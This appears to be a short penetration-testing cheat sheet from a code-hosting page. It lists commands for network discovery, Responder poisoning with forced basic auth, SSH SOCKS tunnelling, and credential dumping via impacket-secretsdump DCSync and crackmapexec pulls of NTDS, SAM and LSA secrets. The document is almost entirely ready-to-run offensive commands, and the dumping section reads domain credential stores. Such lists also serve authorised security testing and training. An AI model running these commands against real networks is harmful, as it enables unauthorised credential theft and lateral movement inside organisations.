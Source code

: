 # Network Information

## Passive

arp -a

ifconfig / ipconfig

tcpdump -i eth0

netdiscover

## Scanning

nbtscan 192.168.1.1/24

nbtscan-unixwiz 192.168.1.1/24

nmap -sSV --open -iL ips.txt -oA output

sudo nmap --script broadcast-dhcp-discover

ping 255.255.255.255

## Responder

### Analyze Mode
responder -I eth0 -A

responder -I eth0 -wFP

### Force Basic Auth
responder -I eth0 -wbFP


# SSH Tunneling

### Socks proxy
ssh -D 8080 root@IP

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy

# Dumping

## DCSYNC

impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output

crackmapexec smb IP -u user -p password --ntds

## Other

crackmapexec smb IP -u user -p password --sam

crackmapexec smb IP -u user -p password --lsa
